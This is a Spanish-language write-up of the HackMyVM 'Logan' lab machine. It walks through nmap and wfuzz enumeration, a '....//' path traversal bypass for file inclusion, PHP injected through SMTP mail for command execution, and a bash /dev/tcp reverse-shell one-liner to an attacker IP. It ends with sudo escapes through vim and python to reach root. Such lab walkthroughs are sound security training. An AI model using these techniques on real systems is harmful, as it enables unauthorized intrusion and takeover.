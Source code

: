 El dia de hoy estaremos resolviendo la maquina Logan de la plataforma de HackMyVm, Aqui dejo el enlance para descargar la [Maquina](https://mega.nz/file/X9dTUYKT#TMxO_vs4M3eKdnrJOvrIxRWKXUOjCRiUDEGDjFW7SCo)

![](/assets/img/logan/machine.png)

## Enumeracion

Empezemos enumerando que puertos tiene abiertos la maquina victima usando la herramienta <code class="language-plaintext highlighter-rouge">nmap</code>


<pre><code class="language-python"><span style="color: green;">❯ nmap</span> 192.168.0.18
Nmap scan report for 192.168.0.18
PORT   STATE SERVICE
25/tcp open  smtp
80/tcp open  http</code></pre>

Solo tenemos dos puertos abiertos el <code class="language-plaintext highlighter-rouge">25</code> que corresponde al servicop <code class="language-plaintext highlighter-rouge">smtp</code>
y el <code class="language-plaintext highlighter-rouge">80</code> Que es un <code class="language-plaintext highlighter-rouge">Servidor Web</code>

Dectectemos que version corren para estos <code class="language-plaintext highlighter-rouge">Puertos</code>.

<pre><code class="language-python"><span style="color: green;">❯ nmap</span> -sCV -p25,80 192.168.0.18
Nmap scan report for 192.168.0.18
PORT   STATE SERVICE
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=logan
| Subject Alternative Name: DNS:logan
| Not valid before: 2023-07-03T13:46:49
|_Not valid after:  2033-06-30T13:46:49
|_smtp-commands: logan.hmv, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host:  logan.hmv</code></pre>

nmap nos reporta un dominio <code class="language-plaintext highlighter-rouge">logan.hmv</code> agregemos este <code class="language-plaintext highlighter-rouge">dominio</code> al archivo <code class="language-plaintext highlighter-rouge">/etc/hosts</code>

<div class="language-python highlighter-rouge contenedor"><div class="highlight"><pre class="highlight">
<code class="language-python"><span style="color: green;">❯ echo </span><span style="color: yellow;">"192.168.0.18 logan.hmv"</span><span class='p'> |</span><span style="color: green;"> sudo tee</span> <span class='p'>-a /etc/hosts</span></code></pre></div></div>

Veamos la Web.

![](/assets/img/logan/web.png)

Si nos ponemos a enumerar directorios o archivos en esta web nos encontramos con que no hay nada pero todavia nos queda enumerar <code class="language-plaintext highlighter-rouge">subdominios</code> para esto voy a usar la herramiento <code class="language-plaintext highlighter-rouge">wfuzz</code> y voy a usar un diccionario de [seclists](https://github.com/danielmiessler/SecLists) que es un repositorio de github el cual puedes clonar en tu equipo.

<pre><code class="language-python"><span style="color: green;">❯ wfuzz</span> -c --hh=65 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.logan.hmv' -u http://logan.hmv/ -t 100

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://logan.hmv/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                       
=====================================================================

000000024:   200        62 L     101 W      1112 Ch     <span class='p' style="color: green;">"admin"</span>

</code></pre>


Encontramos un <code class="language-plaintext highlighter-rouge">subdominio</code> agreguemoslo al archivo <code class="language-plaintext highlighter-rouge">/etc/hosts</code>
<div class="language-python highlighter-rouge contenedor"><div class="highlight"><pre class="highlight">
<code class="language-python"><span style="color: green;">❯ echo </span><span style="color: yellow;">"192.168.0.18 admin.logan.hmv"</span><span class='p'> |</span><span style="color: green;"> sudo tee</span> <span class='p'>-a /etc/hosts</span></code></pre></div></div>

Veamos como se ve este <code class="language-plaintext highlighter-rouge">subdominio</code>

![](/assets/img/logan/sub.png)

Tenemos 3 campos pero el unico que esta funcional es el de  <code class="language-plaintext highlighter-rouge">Payments</code>

![](/assets/img/logan/pay.png)

Al entrar en este nos pide un <code class="language-plaintext highlighter-rouge">code</code> y nos muestra como ejemplo 01 y 02

![](/assets/img/logan/code.png)

Si pobramos poniendo cualquier numero nos muestra el siguiente mensaje.

![](/assets/img/logan/exist.png)

Pobremos poniendo el <code class="language-plaintext highlighter-rouge">01</code> que es el numero que nos muestran de ejemplo, este nos devuelve un <code class="language-plaintext highlighter-rouge">Contenido</code>.

![](/assets/img/logan/01.png)

Voy a interceptar esto con <code class="language-plaintext highlighter-rouge">burpsuite</code> para ver como se esta tramitando la peticion.

![](/assets/img/logan/burp.png)

Lo raro en esta peticion es el parametro <code class="language-plaintext highlighter-rouge">file</code> y el error que nos da al momento de poner un numero como el <code class="language-plaintext highlighter-rouge">1</code> que nos dice <code class="language-plaintext highlighter-rouge">File does not exist </code> por lo que posiblemente se pueda aconteser un <code class="language-plaintext highlighter-rouge">LFI.</code>

Intentemos aplicar un <code class="language-plaintext highlighter-rouge">Path Traversal</code> y apuntar al archivo <code class="language-plaintext highlighter-rouge">/etc/passwd</code> pero de esta manera nos sigue diciendo que el archivo no existe.

![](/assets/img/logan/test.png)

Puede ser que se este aplicando algun tipo de sanitizacion y nos este quitando el <code class="language-plaintext highlighter-rouge">../</code> pero como vamos a ver en el siguiente ejemplo esto tiene que estar bien sanitizado para que quite todos los <code class="language-plaintext highlighter-rouge">../</code>  y no solo el primero.

Aqui muestro un ejemplo usando la function <code class="language-plaintext highlighter-rouge">str_replace</code> de php.

Hacemos el mismo <code class="language-plaintext highlighter-rouge">Path Traversal </code>  que aplicamos desde <code class="language-plaintext highlighter-rouge">Burpsuite</code> y observamos que nos queda simplemente la cadena <code class="language-plaintext highlighter-rouge">etc/passwd</code>
![](/assets/img/logan/php.png) 

Esta funcion no es muy segura ya que si en ves de poner <code class="language-plaintext highlighter-rouge">../</code> ponemos <code class="language-plaintext highlighter-rouge">....//</code> al momento de quitar el <code class="language-plaintext highlighter-rouge">../</code> no quedaria otro <code class="language-plaintext highlighter-rouge">../</code> Veamos un ejemplo de esto.

![](/assets/img/logan/bypass.png)

Apliquemos esta teoria en la web para ver si podemos llegar a visualizar el archivo <code class="language-plaintext highlighter-rouge">/etc/passwd</code>y logramos bypassear la sanitizacion que esta aplicando la web y visualizar el archivo.

![](/assets/img/logan/lfi.png)

## Shell - www-data

Veamos Si tenemos capacidad de leer los logs de <code class="language-plaintext highlighter-rouge">SMTP</code> que es el servicio que esta expuesto, la ruta por defecto de este archivo es <code class="language-plaintext highlighter-rouge">/var/log/mail.log</code>

Tenemos capacidad de ver los logs.
![](/assets/img/logan/smtp.png)

Este <code class="language-plaintext highlighter-rouge">Log</code>  en principio no nos sirve para aplicar un <code class="language-plaintext highlighter-rouge">Log Poisoning</code> pero tenemos otro camino para llegar a inyectar comandos.

La idea es la siguiente al momento de enviar un <code class="language-plaintext highlighter-rouge">Correo</code> de un usuario a otro en el maquina se guarda el correo y el contenido de este en la ruta <code class="language-plaintext highlighter-rouge">/var/mail/&lt;username&gt;</code> donde username en este caso va hacer <code class="language-plaintext highlighter-rouge">www-data</code>

Veamos nuevamente el archivo <code class="language-plaintext highlighter-rouge">/etc/passwd</code> para identificar algun usuario.

![](/assets/img/logan/logan.png)

Identificamos al usuario <code class="language-plaintext highlighter-rouge">logan</code> usemos este para enviar el correo.

Voy a usar <code class="language-plaintext highlighter-rouge">telnet</code> para conectarme al servidor, <code class="language-plaintext highlighter-rouge">MAIL FROM</code> es para indicarle quien envia el <code class="language-plaintext highlighter-rouge">Correo</code>, <code class="language-plaintext highlighter-rouge">RCPT TO</code> para indicarle quien es el destinatario y <code class="language-plaintext highlighter-rouge">DATA</code> para indicarle el mensaje que queremos enviar, En el mensaje voy a injectar codigo <code class="language-plaintext highlighter-rouge">php</code> atraves del cual con el parametro <code class="language-plaintext highlighter-rouge">cmd</code> pueda Controlar el comando a <code class="language-plaintext highlighter-rouge">Ejecutar.</code>

![](/assets/img/logan/shell.png)

Como indique anteriormente la ruta en la que se guardan estos correo es en <code class="language-plaintext highlighter-rouge">/var/mail/&lt;username&gt;</code>, Veamos este archivo y comprobemos Si tenemos capacidad de ejecutar <code class="language-plaintext highlighter-rouge">Comandos</code>.

Podemos ver el mail que se envio correctamente.

![](/assets/img/logan/mail.png)

En el <code class="language-plaintext highlighter-rouge">Codigo</code> php que mandamos definimos un parametro <code class="language-plaintext highlighter-rouge">cmd</code> para ejecutar <code class="language-plaintext highlighter-rouge">comandos</code>, Ahora simplemente agreguemos el parametro <code class="language-plaintext highlighter-rouge">cmd</code> y pongamos un comando para ver si nos lo interpreta.

Funciona correctamente.
![](/assets/img/logan/rce.png)

Para enviarme un <code class="language-plaintext highlighter-rouge">ReverShell</code> voy a usar el siguiente <code class="language-plaintext highlighter-rouge">OneLiner</code>

<div class="language-python highlighter-rouge contenedor"><div class="highlight"><pre class="highlight">
<code class="language-python"><span style="color: green;">bash </span><span class='p'>-c </span><span style="color: yellow;">"bash -i >& /dev/tcp/192.168.0.14/443 0>&1"</span></code></pre></div></div>

Tenemos que <code class="language-plaintext highlighter-rouge">Urlencodear</code> todo el comando.

![](/assets/img/logan/rev.png)

Ganamos accesso a la maquina.

![](/assets/img/logan/cmd.png)


## Shell - logan

Listando nuestros privilegios a nivel de <code class="language-plaintext highlighter-rouge">Sudoers</code> podemos ver que tenemos la capacidad de ejecutar el comando <code class="language-plaintext highlighter-rouge">vim</code> como el usuario <code class="language-plaintext highlighter-rouge">logan</code>.

![](/assets/img/logan/pivo.png)

Atraves de vim hay formas de escapar de este contexto para ganar un <code class="language-plaintext highlighter-rouge">shell</code>, si no vamos a [gtfobins](https://gtfobins.github.io/gtfobins/vim/#shell) no muestran como obtener una shell usando <code class="language-plaintext highlighter-rouge">vim</code>

![](/assets/img/logan/vim.png)

## shell - root

Listemos nuevamente nuestros privilegios a nivel de <code class="language-plaintext highlighter-rouge">Sudoers</code>.

Tenemos capacidad de ejecutar con <code class="language-plaintext highlighter-rouge">python3</code> el archivo <code class="language-plaintext highlighter-rouge">/opt/learn_some_python.py</code> como el usuario <code class="language-plaintext highlighter-rouge">root</code> 
![](/assets/img/logan/python.png)

Intento ver el contenido del archivo <code class="language-plaintext highlighter-rouge">/opt/learn_some_python.py</code> pero no tenemos capacidad de lectura.
<div class="language-python highlighter-rouge contenedor"><div class="highlight"><pre class="highlight">
<code class="language-python"><span class='p'>logan@logan:/$ </span><span style="color: green;">cat </span><span class='p'>/opt/learn_some_python.py</span>
<span class='p'>cat: /opt/learn_some_python.py: Permission denied</span></code></pre></div></div>

Ejecutamos el archivo y nos pide un input el cual nos muestra como ejemplo un <code class="language-plaintext highlighter-rouge">print('hello')</code>, lo ponemos y nos muestra el mensaje que le indicamos.

![](/assets/img/logan/learn.png)

Parece que podemos ejecutar codigo en <code class="language-plaintext highlighter-rouge">python</code> libremente por lo que podemos importar la libreria <code class="language-plaintext highlighter-rouge">os</code> y ejecutar un comando.

![](/assets/img/logan/os.png)

Ahora simplemente ejecutamos un <code class="language-plaintext highlighter-rouge">/bin/bash</code> y tendriamos una consola como el usuario <code class="language-plaintext highlighter-rouge">root</code>

![](/assets/img/logan/root.png)

